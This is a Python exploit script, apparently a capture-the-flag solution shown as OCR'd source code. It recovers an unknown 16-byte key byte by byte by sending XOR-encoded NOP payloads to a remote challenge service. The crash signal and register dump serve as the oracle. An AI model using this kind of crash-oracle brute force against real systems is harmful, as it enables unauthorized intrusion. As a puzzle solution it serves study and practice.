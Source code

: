 ```python
    exit(0)

def find_next_byte(known, idx):
    nops = bytes([k ^ 0x90 for k in known])

    while True:
        padding = randbytes(16 - len(nops) - 1)

        for b0 in range(255):
            io = conn()
            
            try:
                line = nops + bytes([b0]) + padding
                assert len(line) == 16

                io.send(line * 256)

                d = io.recvline_contains(b"Signal", timeout=TIMEOUT)
                if not b"Signal" in d:
                    raise Exception("Timed out :(")

                regs = {}
                for _ in range(17):
                    r, v = io.recvline().strip().decode().split()
                    regs[r] = v

                rax_swapped = regs['rax'] == 'b0070000'
                rip_right = int(regs['rip'],16) == 0xb0070001 + idx
                if not rax_swapped or not rip_right:
                    io.close()
                    continue

            except Exception as e:
                if 'EOF' not in str(type(e)) and "Timed out" not in str(e):
                    print("err", type(e), e)
                io.close()
                continue
            
            print(line.hex())
            return bytes([b0 ^ 0x92]) # xor with 'xchg eax, edx' value

known = b""
for i in range(15):
    print(f"Finding {i}th")
    known += find_next_byte(known, i)
    print(known.hex())

print("Done. Last byte is hard to know, but we wont need that :) I set it to zero for you:")

known += b"\x00"
print(known.hex())
```
